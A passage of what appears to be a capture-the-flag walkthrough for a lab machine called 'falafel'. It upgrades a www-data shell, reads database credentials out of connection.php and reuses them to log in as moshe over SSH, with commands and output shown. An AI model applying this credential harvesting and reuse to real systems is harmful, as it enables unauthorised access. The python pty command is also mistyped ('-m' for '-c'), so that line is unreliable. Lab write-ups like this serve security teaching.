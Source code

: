 Make the shell better:

```

python3 -m 'import pty;pty.spawn("/bin/bash")'

CTRL^Z 
stty raw -echo 
fg

```



<h3>Privilege Escalation</h3>



Enumerating the web server first.

```

www-data@falafel:/var/www/html$ ls
assets          cyberlaw.txt  images     login_logic.php  style.php
authorized.php  footer.php    index.php  logout.php       upload.php
connection.php  header.php    js         profile.php      uploads
css             icon.png      login.php  robots.txt

```


`cat connection.php`

```

<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>

```

Found some creds, they're for the database, but might well work through the ssh port.

`moshe/falafelIsReallyTasty`


```

ssh moshe@10.10.10.73
The authenticity of host '10.10.10.73 (10.10.10.73)' can't be established.
ECDSA key fingerprint is SHA256:XPYifpo9zwt53hU1RwUWqFvOB3TlCtyA1PfM9frNWSw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.73' (ECDSA) to the list of known hosts.
moshe@10.10.10.73's password: 
Welcome to Ubuntu 16.04.3 LTS (GNU/Linux 4.4.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

```